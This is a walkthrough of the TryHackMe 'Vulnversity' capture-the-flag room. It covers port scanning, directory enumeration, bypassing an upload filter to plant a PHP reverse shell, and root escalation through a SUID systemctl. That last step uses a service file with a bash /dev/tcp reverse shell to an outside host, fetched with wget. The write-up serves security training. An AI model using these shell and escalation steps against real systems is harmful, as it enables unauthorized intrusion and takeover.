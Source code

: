 # VulnUniversity

- [Tools](#tools)
- [Deploy the machine](#deploy-the-machine)
- [Reconnaissance](#reconnaissance)
- [Locating directories using Gobuster](#locating-directories-using-gobuster)
- [Privilege Escalation](#privilege-escalation)

Room Link: [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Tools 

- [NMap](https://nmap.org/download) 
- [Gobuster](https://github.com/OJ/gobuster) 
- [Burp Intruder](https://portswigger.net/burp) 
- [Burp Proxy Toggle Extension](https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/)

## Deploy the machine 

- Deploy The Machine by clicking Start The Machine
- Download ovpn file and connect to the network using command `sudo openvpn --config username.ovpn`.

## Reconnaissance

- Scan ports of the machine with given command `nmap -sV 10.10.65.81`
Output of the command:

```bash

Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 09:55 IST
Nmap scan report for 10.10.135.130
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.77 seconds
```

- Question `how many ports are open?` Answer `6`
- Question `What version of the squid proxy is running on the machine?` Answer `3.5.12`
- Question `How many ports will Nmap scan if the flag -p-400 was used?` Answer `400`
- Question `What is the most likely operating system this machine is running?` Answer `Ubuntu`
- Question `What port is the web server running on?` Answer `3333`
- Question `What is the flag for enabling verbose mode using Nmap?` Answer `-v`

## Locating directories using Gobuster 

   
- Port 3333 is http server, So web interface looks like that http://10.10.65.81:3333
- We can run directory busting tool gobuster as per given command with our own wordlist `gobuster dir -u http://10.10.65.81:3333 -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`
Output of the command: 

```bash

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.81:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.65.81:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.65.81:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.65.81:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.65.81:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.65.81:3333/internal/]
Progress: 9932 / 1273834 (0.78%)
```

- Question `What is the directory that has an upload form page?` Answer `/internal/`

## Compromise the Webserver 

- Question `What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.` Answer `.php`
- Run burpsuite as per instruction and user intruder. Use firefox extension, https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/
- Question `Run this attack, what extension is allowed?` Answer `.phtml`
- Now we need to make our shell with given instruction using https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. Just replace ip to our netcat listening ip (tun0) and file extension to `.phtml`. Use `nc -lvnp 1234` to get shell.
- Now just upload the file and open http://10.10.65.81:3333/internal/uploads/ and click on the shell to get reverse shell.
- Question `What is the name of the user who manages the webserver?` Answer `bill`. Use `ls /home` command to get username.
- Question `What is the user flag?` Answer `********************************` (32 alphanumeric characters). Command used `cat /home/bill/user.txt`

## Privilege Escalation 

- To check suid permission files, we can use `find / -perm /4000 2> /dev/null`.
- Question `On the system, search for all SUID files. Which file stands out?` Answer `/bin/systemctl` Because systemctl don't have suid permission normally.
- Now we can start rooting the server.
- At first I created a file on my machine named ZishanAdThander.service (with my ip, you can user your ip)

```bash

[Unit]
Description=ZishanAdThandar

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.102.105/1337 0>&1'

[Install]
WantedBy=multi-user.target
```

- Now started web server on my machine using `python3 -m http.server 7860`
- On the reverse shell, moved to `/tmp` directory using `cd /tmp` command. Then uploaded the file with `wget http://10.17.102.105:7860/ZishanAdThandar.service` command.
- Now we can add the service using `/bin/systemctl enable /tmp/ZishanAdThandar.service` command on reverse shell.
- Started netcat listner on the given port with `nc -lvnp 1337`.
- Now we need can run the command `/bin/systemctl start ZishanAdThandar` to start the service and immediately we will get reverse shell as root on another netcat listner.
- Question `Become root and get the last flag (/root/root.txt)` Answer `********************************` (32 alphanumeric characters). Command used `cat /root/root.txt`

    
Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)




